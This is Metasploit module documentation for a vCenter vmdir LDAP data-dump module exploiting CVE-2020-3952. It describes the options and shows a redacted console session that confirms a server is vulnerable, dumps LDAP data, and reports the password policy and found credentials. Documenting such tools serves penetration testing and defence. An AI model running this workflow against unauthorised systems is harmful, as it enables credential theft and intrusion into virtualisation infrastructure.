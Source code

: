 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update, only if upgraded from a previous release line, such as
6.0 or 6.5.
If the bind username and password are provided (BIND_DN and LDAPPassword
options), these credentials will be used instead of attempting an
anonymous bind.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf6 auxiliary(gather/vmware_vcenter_vmdir_ldap) > show options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   BASE_DN                   no        LDAP base DN if you already have it
   SSL      true             no        Enable SSL on the LDAP connection


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LDAPDomain                     no        The domain to authenticate to
   LDAPPassword                   no        The password to authenticate with
   LDAPUsername                   no        The username to authenticate with
   RHOSTS                         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                            metasploit.html
   RPORT         636              no        The target port


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data



View the full module info with the info, or info -d command.
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]
not verifying SSL hostname of LDAPS server '[redacted]:636'

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
